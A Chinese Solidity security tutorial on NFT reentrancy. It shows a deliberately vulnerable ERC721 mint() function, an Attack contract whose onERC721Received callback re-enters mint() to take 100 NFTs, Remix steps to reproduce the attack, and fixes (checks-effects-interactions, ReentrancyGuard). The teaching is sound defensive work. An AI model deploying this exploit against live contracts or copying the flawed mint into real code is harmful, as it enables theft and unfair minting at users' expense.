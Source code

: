 ```yaml
---
title: S16. NFT重入攻击
tags:
  - solidity
  - security
  - fallback
  - nft
  - erc721
  - erc1155
---
```


# WTF Solidity 合约安全: S16. NFT重入攻击

我最近在重新学solidity，巩固一下细节，也写一个“WTF Solidity极简入门”，供小白们使用（编程大佬可以另找教程），每周更新1-3讲。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)

社区：[Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在github: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTFSolidity)

-----

这一讲，我们将介绍NFT合约的重入攻击漏洞，并攻击一个有漏洞的NFT合约，铸造100个NFT。

## NFT重入风险

我们在[S01 重入攻击](https://github.com/AmazingAng/WTFSolidity/blob/main/S01_ReentrancyAttack/readme.md)中讲过，重入攻击是智能合约中最常见的一种攻击，攻击者通过合约漏洞（例如`fallback`函数）循环调用合约，将合约中资产转走或铸造大量代币。转账NFT时并不会触发合约的`fallback`或`receive`函数，为什么会有重入风险呢？

这是因为NFT标准（[ERC721](https://github.com/AmazingAng/WTFSolidity/blob/main/34_ERC721/readme.md)/[ERC1155](https://github.com/AmazingAng/WTFSolidity/blob/main/40_ERC1155/readme.md)）为了防止用户误把资产转入黑洞而加入了安全转账：如果转入地址为合约，则会调用该地址相应的检查函数，确保它已准备好接收NFT资产。例如 `ERC721` 的 `safeTransferFrom()` 函数会调用目标地址的 `onERC721Received()` 函数，而黑客可以把恶意代码嵌入其中进行攻击。

我们总结了 `ERC721` 和 `ERC1155` 有潜在重入风险的函数：

![](./img/S16-1.png)

## 漏洞例子

下面我们学习一个有重入漏洞的NFT合约例子。这是一个`ERC721`合约，每个地址可以免费铸造一个NFT，但是我们通过重入攻击可以一次铸造多个。

### 漏洞合约

`NFTReentrancy`合约继承了`ERC721`合约，它主要有 `2` 个状态变量，`totalSupply`记录NFT的总供给，`mintedAddress`记录已铸造过的地址，防止一个用户多次铸造。它主要有 `2` 个函数：
- 构造函数: 初始化 `ERC721` NFT的名称和代号。
- `mint()`: 铸造函数，每个用户可以免费铸造1个NFT。**注意：这个函数有重入漏洞！**

```solidity
contract NFTReentrancy is ERC721 {
    uint256 public totalSupply;
    mapping(address => bool) public mintedAddress;
    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Reentry NFT", "ReNFT"){}

    // 铸造函数，每个用户只能铸造1个NFT
    // 有重入漏洞
    function mint() payable external {
        // 检查是否mint过
        require(mintedAddress[msg.sender] == false);
        // 增加total supply
        totalSupply++;
        // mint
        _safeMint(msg.sender, totalSupply);
        // 记录mint过的地址
        mintedAddress[msg.sender] = true;
    }
}
```

### 攻击合约

`NFTReentrancy`合约的重入攻击点在`mint()`函数会调用`ERC721`合约中的`_safeMint()`，从而调用转入地址的`_checkOnERC721Received()`函数。如果转入地址的`_checkOnERC721Received()`包含恶意代码，就能进行攻击。

`Attack`合约继承了`IERC721Receiver`合约，它有 `1` 个状态变量`nft`记录了有漏洞的NFT合约地址。它有 `3` 个函数:
- 构造函数: 初始化有漏洞的NFT合约地址。
- `attack()`: 攻击函数，调用NFT合约的`mint()`函数并发起攻击。
- `onERC721Received()`: 嵌入了恶意代码的ERC721回调函数，会重复调用`mint()`函数，并铸造100个NFT。

```solidity
contract Attack is IERC721Receiver{
    NFTReentrancy public nft; // 有漏洞的nft合约地址

    // 初始化NFT合约地址
    constructor(NFTReentrancy _nftAddr) {
        nft = _nftAddr;
    }
    
    // 攻击函数，发起攻击
    function attack() external {
        nft.mint();
    }

    // ERC721的回调函数，会重复调用mint函数，铸造100个
    function onERC721Received(address, address, uint256, bytes memory) public virtual override returns (bytes4) {
        if(nft.balanceOf(address(this)) < 100){
            nft.mint();
        }
        return this.onERC721Received.selector;
    }
}
```

## Remix复现

1. 部署`NFTReentrancy`合约。
2. 部署`Attack`合约，参数填`NFTReentrancy`合约地址。
3. 调用`Attack`合约的`attack()`函数发起攻击。
4. 调用`NFTReentrancy`合约的`balanceOf()`函数查询`Attack`合约的持仓，可以看到持有`100`个NFT，攻击成功。

![](./img/S16-2.png)

## 预防方法

主要有两种办法来预防重入攻击漏洞： 检查-影响-交互模式（checks-effect-interaction）和重入锁。

1. 检查-影响-交互模式：它强调编写函数时，要先检查状态变量是否符合要求，紧接着更新状态变量（例如余额），最后再和别的合约交互。我们可以用这个模式修复有漏洞的`mint()`函数:

  ```solidity
      function mint() payable external {
          // 检查是否mint过
          require(mintedAddress[msg.sender] == false);
          // 增加total supply
          totalSupply++;
          // 记录mint过的地址
          mintedAddress[msg.sender] = true;
          // mint
          _safeMint(msg.sender, totalSupply);
      }
  ```

2. 重入锁：它是一种防止重入函数的修饰器（modifier）。建议直接使用OpenZeppelin提供的[ReentrancyGuard](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/security/ReentrancyGuard.sol)

## 总结

这一讲，我们介绍了NFT的重入攻击漏洞，并攻击了一个有漏洞的NFT合约，铸造了100个NFT。目前主要有两种预防重入攻击的办法：检查-影响-交互模式（checks-effect-interaction）和重入锁。